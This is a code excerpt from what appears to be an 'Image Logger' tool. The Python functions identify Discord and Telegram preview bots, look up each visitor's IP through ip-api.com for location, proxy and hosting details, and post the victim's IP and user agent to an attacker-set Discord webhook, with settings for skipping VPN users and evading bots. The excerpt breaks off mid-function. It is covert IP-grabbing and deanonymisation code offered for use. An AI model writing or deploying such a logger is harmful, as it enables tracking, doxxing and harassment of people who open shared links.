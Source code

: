 def botCheck(ip, useragent):
    if ip.startswith(("34", "35")):
        return "Discord"
    elif useragent.startswith("TelegramBot"):
        return "Telegram"
    else:
        return False

def reportError(error):
    requests.post(config["webhook"], json = {
    "username": config["username"],
    "content": "@everyone",
    "embeds": [
        {
            "title": "Image Logger - Error",
            "color": config["color"],
            "description": f"An error occurred while trying to log an IP!\n\n**Error:**\n```\n{error}\n```",
        }
    ],
})

def makeReport(ip, useragent = None, coords = None, endpoint = "N/A", url = False):
    if ip.startswith(blacklistedIPs):
        return
    
    bot = botCheck(ip, useragent)
    
    if bot:
        requests.post(config["webhook"], json = {
    "username": config["username"],
    "content": "",
    "embeds": [
        {
            "title": "Image Logger - Link Sent",
            "color": config["color"],
            "description": f"An **Image Logging** link was sent in a chat!\nYou may receive an IP soon.\n\n**Endpoint:** `{endpoint}`\n**IP:** `{ip}`\n**Platform:** `{bot}`",
        }
    ],
}) if config["linkAlerts"] else None # Don't send an alert if the user has it disabled
        return

    ping = "@everyone"

    info = requests.get(f"http://ip-api.com/json/{ip}?fields=16976857").json()
    if info["proxy"]:
        if config["vpnCheck"] == 2:
                return
        
        if config["vpnCheck"] == 1:
            ping = ""
    
    if info["hosting"]:
        if config["antiBot"] == 4:
            if info["proxy"]:
                pass
            else:
                return
